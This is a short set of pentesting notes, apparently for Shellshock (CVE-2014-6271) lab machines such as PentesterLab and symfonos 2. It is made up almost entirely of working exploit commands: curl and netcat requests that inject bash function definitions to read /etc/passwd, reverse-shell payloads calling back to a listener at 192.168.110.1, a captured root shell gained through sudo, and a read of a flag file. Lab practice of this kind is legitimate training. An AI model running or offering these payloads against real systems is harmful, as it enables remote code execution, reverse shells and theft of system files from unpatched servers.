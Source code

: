 https://www.exploit-db.com/exploits/34766

https://blog.knapsy.com/blog/2014/10/07/basic-shellshock-exploitation/


https://pentesterlab.com/exercises/cve-2014-6271/course


Machines : shellshock, symfonos 2, sleepy

$ curl -s -H "x: () { :; }; /bin/bash -c 'cat /etc/passwd'" http://192.168.110.45/cgi-bin/status
$ curl -s -H "x: () { :; }; /bin/bash -c '; echo vulnerable'" http://192.168.110.45/cgi-bin/status

$ curl -s -H "x: () { :; }; /bin/bash -c 'ping -c 1 192.168.110.1 ; id'" http://192.168.110.45/cgi-bin/status
tcpdump -i eth0 -n icmp        


$ curl -s -H "x: () { :; }; /bin/bash -c 'ping -c 1 /dev/tcp/192.168.110.1/443 ; id'" http://192.168.110.45/cgi-bin/status
$ curl -s -H "x: () { :; }; /bin/bash -c '0<&21-;exec 21<>/dev/tcp/192.168.110.1/443;sh <&21 >&21 2>&21'" http://192.168.110.45/cgi-bin/status

```bash

echo -e "HEAD /cgi-bin/status HTTP/1.1\r\nUser-Agent: () { :;}; echo \$(</etc/passwd)\r\nHost: vulnerable\r\nConnection: close\r\n\r\n" | nc 192.168.110.45 80
echo -e "HEAD /cgi-bin/status HTTP/1.1\r\nUser-Agent: () { :;}; /usr/bin/nc 192.168.110.1 443 -e /bin/sh\r\nHost: vulnerable\r\nConnection: close\r\n\r\n" | nc 192.168.110.45 80

```

```bash
$ nc -lvp 443
id
uid=1000(pentesterlab) gid=50(staff) groups=50(staff),100(pentesterlab)
sudo -l
User pentesterlab may run the following commands on this host:
    (root) NOPASSWD: ALL
sudo -s
whoami
root
id
uid=0(root) gid=0(root) groups=0(root)

env x='() { :;}; echo vulnerable' bash -c "echo test"
env x='() { :;}; cat /root/flag.txt' bash -c "echo test"
```

```bash

cat status
#!/bin/bash

echo "Content-Type: application/json";
echo ""
echo '{ "uptime": "'`uptime`'", "kernel": "'`uname -a`'"} '


```

This security vulnerability affects versions 1.14 (released in 1994) to the most recent version 4.3 according to NVD.

/bin/bash --version
GNU bash, version 4.2.45(1)-release (i686-pc-linux-gnu)